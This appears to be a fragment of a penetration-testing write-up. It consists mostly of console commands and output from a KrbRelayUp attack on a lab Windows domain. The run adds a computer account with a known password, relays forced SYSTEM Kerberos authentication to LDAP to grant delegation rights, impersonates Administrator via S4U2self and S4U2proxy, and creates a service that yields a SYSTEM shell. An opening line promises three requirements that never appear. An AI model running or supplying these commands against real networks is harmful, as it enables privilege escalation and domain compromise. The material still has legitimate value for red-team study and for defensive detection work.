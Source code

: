 There are 3 requirement to make successfull this attack method


	PS C:\Users\testuser\Desktop> .\KrbRelayUp.exe relay -Domain valhalla.local -CreateNewComputerAccount -ComputerName evilhost$ -ComputerPassword Pass123!
	KrbRelayUp - Relaying you to SYSTEM
	
	[+] Computer account "evilhost$" added with password "Pass123!"
	[+] Rewriting function table
	[+] Rewriting PEB
	[+] Init COM server
	[+] Register COM server
	[+] Forcing SYSTEM authentication
	[+] Got Krb Auth from NT/SYSTEM. Relying to LDAP now...
	[+] LDAP session established
	[+] RBCD rights added successfully
	[+] Run the spawn method for SYSTEM shell:
		./KrbRelayUp spawn -d valhalla.local -cn evilhost$ -cp Pass123!
		

	PS C:\Users\testuser\Desktop> ./KrbRelayUp spawn -d valhalla.local -cn evilhost$ -cp Pass123!
	KrbRelayUp - Relaying you to SYSTEM

	[+] TGT request successful!
	[+] Ticket successfully imported!
	[+] Building S4U2self
	[*] Using domain controller: odin.valhalla.local (192.168.200.100)
	[+] Sending S4U2self request to 192.168.200.100:88
	[+] S4U2self success!
	[+] Got a TGS for 'Administrator' to 'evilhost$@VALHALLA.LOCAL'
	[+] Impersonating user 'Administrator' to target SPN 'HOST/THOR'
	[+] Building S4U2proxy request for service: 'HOST/THOR'
	[*] Using domain controller: odin.valhalla.local (192.168.200.100)
	[+] Sending S4U2proxy request to domain controller 192.168.200.100:88
	[+] S4U2proxy success!
	[+] Ticket successfully imported!
	[+] Using ticket to connect to Service Manger
	[+] AcquireCredentialsHandleHook called for package N
	[+] Changing to Kerberos package
	[+] InitializeSecurityContextHook called for target H
	[+] InitializeSecurityContext status = 0x00090312
	[+] InitializeSecurityContextHook called for target H
	[+] InitializeSecurityContext status = 0x00000000
	[+] KrbSCM Service created
	[+] KrbSCM Service started
	[+] Clean-up done